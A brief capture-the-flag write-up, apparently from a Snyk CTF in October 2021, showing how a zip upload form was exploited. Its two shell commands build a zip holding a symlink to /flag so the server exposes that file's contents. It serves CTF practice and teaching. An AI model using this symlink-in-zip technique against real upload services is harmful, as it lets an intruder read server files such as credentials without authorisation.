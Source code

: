 # Fetch the flag | Snyk ctf | 5 OCT 2021 

given the link we can see it is a zib file uplaod :

![image](https://user-images.githubusercontent.com/67979878/136060452-bbd22467-4aa1-451a-b2f7-8db4e8efc16c.png)

searching for zip file upload vulnerability found :

https://book.hacktricks.xyz/pentesting-web/file-upload

```bash
ln -s /flag symindex.txt
zip --symlinks test.zip symindex.txt
```

upload test.zip 

![image](https://user-images.githubusercontent.com/67979878/136060955-51a96505-ff7e-4e56-877d-d34c5283b362.png)

